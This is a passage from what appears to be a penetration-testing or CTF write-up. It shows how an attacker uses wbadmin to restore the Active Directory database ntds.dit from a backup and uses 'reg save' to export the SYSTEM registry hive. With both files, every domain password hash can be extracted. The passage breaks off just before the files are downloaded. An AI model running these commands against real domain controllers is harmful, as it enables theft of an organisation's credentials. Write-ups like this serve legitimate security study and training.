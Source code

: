 Be careful to take the good backup version:

<figure><img src="../../../../.gitbook/assets/image (943).png" alt=""><figcaption></figcaption></figure>

```
echo "Y" | wbadmin start recovery -version:05/01/2024-16:36 -itemtype:file -items:C:\Windows\NTDS\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

<figure><img src="../../../../.gitbook/assets/image (944).png" alt=""><figcaption><p>Pretty happy of this after hours of troubleshooting <span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>

We then need to export the system hive too:

```
reg save HKLM\SYSTEM C:\system.hive
```

{% embed url="https://zer1t0.gitlab.io/posts/attacking_ad/#lsass-credentials" %}

We then donwload everything to our local machine:
